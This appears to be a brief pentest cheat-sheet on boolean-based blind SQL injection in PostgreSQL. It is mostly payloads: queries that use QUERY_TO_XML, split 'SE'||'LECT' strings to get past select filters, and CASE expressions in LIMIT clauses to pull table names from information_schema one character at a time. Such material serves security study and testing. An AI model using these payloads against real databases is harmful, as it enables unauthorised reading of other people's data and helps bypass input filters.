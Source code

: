

## boolean based

- with select and `;` filter in limit or order by clause .  
- `QUERY_TO_XML` can be used to craft sql queries 
```PostgreSQL
SELECT 'a1'  , 'a2' limit CASE when QUERY_TO_XML('SE'||'LECT table_name a FROM information_schema.tables WHERE (table_schema=''public'')', true, true, '') IS NOT NULL THEN 1 ELSE 0 END;



SELECT query_to_xml('SE'||'LECT table_name a FROM information_schema.tables WHERE (table_schema=''public'')',true,true,'') ;

SELECT substring(replace(''||query_to_xml('SE'||'LECT table_name a FROM information_schema.tables WHERE (table_schema=''public'')',true,true,''),'row',''), 3,1) ;

SELECT substring(replace(replace('' || query_to_xml('SE'||'LECT table_name a FROM information_schema.tables WHERE (table_schema=''public'')', true, true, ''),'row',''),'xmlns',''),3,1);

```
